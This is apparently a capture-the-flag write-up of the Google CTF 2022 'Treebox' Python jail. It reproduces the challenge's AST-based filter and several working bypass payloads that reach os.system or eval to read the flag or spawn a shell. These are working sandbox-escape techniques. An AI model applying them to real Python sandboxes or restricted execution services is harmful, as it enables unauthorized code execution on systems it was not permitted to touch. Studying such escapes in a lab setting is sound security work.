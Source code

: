 # Treebox Google CTF 2022
## SANDBOX - Python Jail - 268 solves - 50 points

This challenge was a classic type of challenge known as a Python jail in which we can run Python code in a remote server with some limitations and our objective is to read the flag from a file on the server or achieve arbitrary code execution. 

Usually we are limited in the characters we can use or have forbidden words but this was different in that the server would parse the code into it's Abstract Syntax Tree (AST) and reject the code if it contained a Call, Import or ImportFrom node in it. 

We are given the server source code which we can adapt to play around locally. Simply we add an extra loop so we can try many inputs, print out the node type during verification and execute regardless of verification for debugging.

```python
import ast, sys, os

def verify_secure(code):
  tree = compile(code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
  for x in ast.walk(tree):
    print(type(x))
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  print(f"COOL: Code is valid")
  return True

print("-- Please enter code (last line must contain only --END)")
while True:
  source_code = ""
  while True:
    line = sys.stdin.readline()
    if line.startswith("--END"):
      break
    source_code += line

  verify_secure(source_code)
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```

By testing we find out that we cannot use `import` or `from ... import` statements nor we can call functions by `name()` including instantiating classes like `str()`. But we do have access to `os` library so _if_ we could just execute `os.system("cat flag")` we'd be done. We just need to find out _how_ to call a function.

Several ideas came to mind. Maybe there is some language statement that is not a function and would execute arbitrary code, in Python 2 `exec` is a statement and should do fine but we have Python 3. Maybe some string interpolation does code execution, but no. Maybe decorators, they did execute but had to think on a way of controlling the input (other teams actually did this). We could override an object magic methods and trigger them. Finally I went with this last method.

Since we want to call `os.system` that takes one string parameter we need some magic method that also takes 1 string parameter, like `__getitem__` that gets triggered when we try to access a key on a dictionary this way `object["string"]`. 

We test it real quick, the initialization is still a function call but the indirect call works.  

```python
class Test:
  __getitem__=os.system

Test()["ls"]
```
So we changed a problem for another. We can execute _if_ we have an instantiated object with an overridden magic method. I tried adding methods to built-in classes and while you can extend them you cannot modify them and you need to initialize the extended classes like any regular class. Tried to add methods to an existing object but again they were immutable. Finally I went back to searching for statements we can use to instantiate a class by inspecting what AST had to offer.

```python
dir(ast)

['AST', 'Add', 'And', 'AnnAssign', 'Assert', 'Assign', 'AsyncFor', 'AsyncFunctionDef', 
'AsyncWith', 'Attribute', 'AugAssign', 'AugLoad', 'AugStore', 'Await', 'BinOp', 'BitAnd', 'BitOr', 
'BitXor', 'BoolOp', 'Break', 'Bytes', 'Call', (...) 'RShift', 'Raise', 'Return', 'Set', 'SetComp', 
'Slice', 'Starred', 'Store', 'Str', 'Sub', 'Subscript', 'Suite', 'Try', 'Tuple', 'TypeIgnore', 'UAdd', 
'USub', 'UnaryOp', 'While', 'With', 'Yield', 'YieldFrom', (...)]
```

After much testing and some thinking I found that `raise` would happily take a class name and instantiate it if it extended from `BaseException`. So we finally can build the full exploit! 

We create our Test class extending from `BaseException`, we override it's `__getitem__` method with `os.system`, we `raise Test`, we capture our instantiated Test object and trigger the execution by trying to access an item on it.

```python
class Test(BaseException):
	__getitem__=os.system

try:
	raise Test
except Test as e:
	e['cat flag']

--END
```

This was the first challenge I solved during this CTF, I was fearing it would be too hard, that I might not solve any challenge and could not rely on any similar problem for solving it so I was very excited when I did solve it.

There were lot's of cool solutions so I thought I'd share a few different ones, slightly modified for clarification.

Here Crazyman found an object where to override a magic method.
```python
tree.__class__.__getitem__ = os.system
tree["cat flag"]
```

Here Harrier did away with the instantiation and added a class magic method to a metaclass. Also why get the flag when you can get a shell I guess :)
```python
class M(type):
    pass
class A(metaclass=M):
    pass
M.__getitem__ = os.system
A["sh"]
```

Here ContronThePanda found how to do it using function decorators.
```python
def os_str(x): return 'os'

@__import__
@os_str
def os(): pass

def cmd_str(x): return 'cat flag'

@os.system
@cmd_str
def ret(): pass
```

Finally the challenge creator provided this solution in which `__builtins__.__import__` is overridden and for some reason that I don't understand the following line triggers it.
```python
class X():
  def __init__(self, a, b, c, d, e):
    self += "print(open('flag').read())"
  __iadd__ = eval
__builtins__.__import__ = X
{}[1337]
```
